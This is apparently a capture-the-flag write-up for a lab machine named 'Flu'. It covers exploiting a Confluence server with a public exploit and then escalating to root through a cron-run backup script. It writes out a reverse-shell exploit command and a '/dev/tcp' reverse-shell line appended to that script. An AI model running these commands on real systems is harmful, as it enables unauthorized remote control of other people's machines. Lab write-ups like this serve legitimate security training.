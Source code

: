 # Flu

so i start off with a nmap scan to discover open ports:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

The first web page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see the version number of the confluence software so we can look for public exploits:

{% embed url="https://github.com/jbaines-r7/through_the_wire" %}

And we catch a shell just like that:

```
python3 through_the_wire.py --rhost 192.168.59.41 --rport 8090 --lhost 192.168.49.59 --lport 1234 --protocol http:// --reverse-shell
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i run linpeas and see that there is something going on in the dir /opt/atlassian/confluance/logs/

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i go and see all those files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

nothing interesting unfortunatly i went through all those logs and did not grep on any interesting stuff so i back out of this dir one by one and end up in /opt:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the log-backup.sh file seems interesting:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i see this script creates backups and stores them in a root folder so i try to write a reverse shell into it:

```
echo 'sh -i >& /dev/tcp/192.168.49.59/9876 0>&1' >> log-backup.sh
```

and very wierdly i get a shell as root on my listener?

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there must be a cron running on this file and i was very lucky so i need to be sure by running pspy to look at root to snoop on processes without need for root permissions. It allows to see commands run by other users, cron jobs, etc

so i install pspy in /tmp of my shell with the following:

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

and run it to find UID=0:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A script named **`/opt/log-backup.sh`** was run, likely as part of a scheduled task or system process.
* The initial execution (`/bin/sh -c ...`) suggests it may have been triggered by a **cron job**, systemd service, or another script.
* The script itself was executed using **`/bin/bash`**, meaning it contains commands that require Bash rather than the default `sh`.
